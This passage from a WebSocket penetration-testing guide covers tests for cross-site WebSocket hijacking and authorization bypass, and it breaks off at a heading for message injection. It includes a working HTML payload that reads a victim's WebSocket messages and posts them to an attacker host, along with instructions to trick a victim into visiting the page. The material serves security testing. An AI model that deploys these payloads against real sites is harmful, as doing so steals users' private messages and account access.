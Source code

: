 ### Test 2: Cross-Site WebSocket Hijacking

**Create malicious HTML**:
```html
<html>
<body>
<script>
// Victim's browser connects to WebSocket with their cookies
var ws = new WebSocket('wss://target.com/socket');

ws.onopen = function() {
  // Subscribe to victim's channel
  ws.send('{"action":"getMessages"}');
};

ws.onmessage = function(event) {
  // Exfiltrate to attacker
  fetch('https://attacker.com/collect', {
    method: 'POST',
    body: event.data
  });
};
</script>
</body>
</html>
```

**Test**:
```
1. Host malicious page
2. Trick victim into visiting
3. If messages received → CSWSH vulnerability
```

### Test 3: Authorization Bypass

```javascript
// Connect as low-privilege user
const ws = new WebSocket('wss://target.com/socket?token=LOW_PRIV_TOKEN');

ws.onopen = function() {
  // Try subscribing to admin channel
  ws.send('{"action":"subscribe","channel":"admin"}');

  // Try requesting other user's data
  ws.send('{"action":"getUser","userId":"admin_user_id"}');
};

// If successful → Authorization bypass
```

### Test 4: Message Injection
